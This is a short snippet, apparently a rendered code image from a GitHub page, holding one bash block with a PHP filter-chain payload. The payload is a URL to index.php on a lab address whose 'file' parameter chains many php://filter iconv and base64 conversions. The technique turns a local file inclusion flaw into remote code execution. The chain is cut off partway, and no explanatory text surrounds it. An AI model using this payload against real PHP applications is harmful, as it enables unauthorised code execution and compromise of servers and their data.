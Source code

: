 ```bash
172.17.0.2/index.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|co
```